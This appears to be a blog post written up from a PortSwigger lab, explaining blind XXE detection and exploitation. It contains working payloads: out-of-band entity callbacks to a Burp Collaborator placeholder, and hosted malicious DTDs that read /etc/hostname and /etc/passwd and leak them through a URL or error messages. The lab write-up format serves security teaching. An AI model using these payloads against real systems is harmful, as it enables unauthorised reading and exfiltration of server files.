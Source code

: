 ```yaml
---
layout: post
title:  "Blind XXE"
date:   2023-10-16 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - XXE
image1:
  - /blind-xxe/img1.PNG
image2:
  - /blind-xxe/img2.PNG
image3:
  - /blind-xxe/img3.PNG
image4:
  - /blind-xxe/img4.PNG
image5:
  - /blind-xxe/img5.PNG
image6:
  - /blind-xxe/img6.PNG
image7:
  - /blind-xxe/img7.PNG
image8:
  - /blind-xxe/img8.PNG
image9:
  - /blind-xxe/img9.PNG
image10:
  - /blind-xxe/img10.PNG
image11:
  - /blind-xxe/img11.PNG
image12:
  - /blind-xxe/img12.PNG
image13:
  - /blind-xxe/img13.PNG
---
```


Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

   1. You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
   2. You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting Blind XXE Using out-of-band (OAST) Techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control.

1. Identify injection point.
2. Insert the external entity definition in between the XML declaration and the `stockCheck` element.
3. Replace the `productId` number with a reference to the external entity.

<figure>
<img src="{{ page.image1 }}" alt="">
<figcaption>Fig 1. Injection Point</figcaption>
</figure>

Payload:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

<figure>
<img src="{{ page.image2 }}" alt="">
<figcaption>Fig 2. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image3 }}" alt="">
<figcaption>Fig 3. Burp Collaborator Callback</figcaption>
</figure>

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

<figure>
<img src="{{ page.image4 }}" alt="">
<figcaption>Fig 4. Blocked Attack</figcaption>
</figure>

1. The declaration of an XML parameter entity includes the percent character before the entity name.
2. Parameter entities are referenced using the percent character instead of the usual ampersand.

Payload:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
<figure>
<img src="{{ page.image5 }}" alt="">
<figcaption>Fig 5. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image6 }}" alt="">
<figcaption>Fig 6. Burp Collaborator Callback</figcaption>
</figure>

### Exploiting Blind XXE to Exfiltrate Data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

<figure>
<img src="{{ page.image7 }}" alt="">
<figcaption>Fig 7. Injection Point</figcaption>
</figure>

Host the malicious DTD on a [system](https://github.com/william5647/Exploit-Server) that we control, normally by loading it onto their own webserver.

<figure>
<img src="{{ page.image8 }}" alt="">
<figcaption>Fig 8. Exploit Server</figcaption>
</figure>

Payload:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- Defines an XML parameter entity called file, containing the contents of the /etc/hostname file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

<figure>
<img src="{{ page.image9 }}" alt="">
<figcaption>Fig 9. Inject Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image10 }}" alt="">
<figcaption>Fig 10. Burp Collaborator Callback</figcaption>
</figure>

Victim's hotsname is `a2b1d26fa266`.

### Exploiting Blind XXE to Retrieve Data via Error Messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

<figure>
<img src="{{ page.image11 }}" alt="">
<figcaption>Fig 11. Injection Point</figcaption>
</figure>

Host the malicious DTD on a [system](https://github.com/william5647/Exploit-Server) that we control, normally by loading it onto their own webserver.

<figure>
<img src="{{ page.image12 }}" alt="">
<figcaption>Fig 12. Exploit Server</figcaption>
</figure>

Payload:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading an invalid file whose name contains the value of the file entity.
- Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
- Uses the error entity, so that its value is evaluated by attempting to load the invalid file, resulting in an error message containing the name of the invalid file, which is the contents of the /etc/passwd file.

<figure>
<img src="{{ page.image13 }}" alt="">
<figcaption>Fig 13. Inject Payload</figcaption>
</figure>


















IB: Portswigger
